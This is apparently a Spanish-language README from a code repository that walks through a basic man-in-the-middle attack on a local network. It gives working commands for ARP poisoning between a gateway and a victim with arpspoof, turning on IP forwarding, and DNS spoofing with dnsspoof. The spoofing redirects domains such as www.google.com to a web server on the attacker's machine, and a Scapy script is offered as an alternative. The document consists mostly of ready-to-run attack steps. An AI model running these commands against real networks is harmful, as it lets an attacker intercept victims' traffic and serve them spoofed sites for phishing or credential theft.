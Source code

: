 ## MITM básico

0. Instalar DSniff. En sistemas basados en Debian: `apt-get install dsniff`

1. Envenenamiento de tablas ARP entre gateway y víctima.

```sh
$ arpspoof -i <interfaz_red> -t <gateway> <víctima>
# arpspoof -i eth0 -t 192.168.1.1 192.168.1.195
```

2. Envenenamiento de tablas ARP entre víctima y gateway

```sh
$ arpspoof -i <interfaz_red> -t <víctima> <gateway>
# arpspoof -i eth0 -t 192.168.1.195 192.168.1.1
```
    
Con los pasos anteriores, se envenenarán las tablas ARP en el gateway y en la víctima. Todos los paquetes intercambiados entre ambas máquinas pasarán primero por la interfaz de red del atacante. Esto, ya es un ataque de MITM.

3. El sistema del atacante debe actuar como una pasarela de los paquetes, de lo contrario se producirá una condición DoS. En sistemas Linux, basta con establecer el ordenador como "forwarder" de la siguiente forma:

```sh
echo 1 > /proc/sys/net/ipv4/ip_forward
```

Hasta este punto, tenemos un ataque de ARP Spoofing/Poisoning funcional. A continuación, ataque de DNS Spoofing.

4. Ejecutar el fichero [iptables-rules.sh](./iptables-rules.sh). Sustituir la dirección IP que corresponda al atacante.

5. Ejecutar `dnspoof` con un fichero de dominios (por ejemplo [domains.txt](./domains.txt)).

6. Para efectos de pruebas, iniciar un servidor web en el puerto 80 en la máquina local (atacante).

```sh
# Por ejemplo, utilizando Twisted
$ sudo twistd -n web --path . --port 80
```

7. Ahora se lanza el ataque de DNS Spoofing utilizando la herramienta dnsspoof

```sh
$ sudo dnsspoof -i eth0 -f domains.txt
```

8. Finalmente, en el ordenador de la víctima, ejecutar el comando `arp`, y utilizando un navegador web, 
navegar por cualquiera de los dominios definidos en el fichero [domains.txt](./domains.txt). Dominios tales como www.google.com serán resueltos con la dirección IP del atacante, y en consecuencia, se servirán los contenidos definidos en el servidor web definido en el ordenador del atacante.

9. Esto mismo, se puede llevar a cabo utilizando Python y Scapy

```sh
$ python mitm.py -t <objetivo> -g <gateway> -i eth0
```
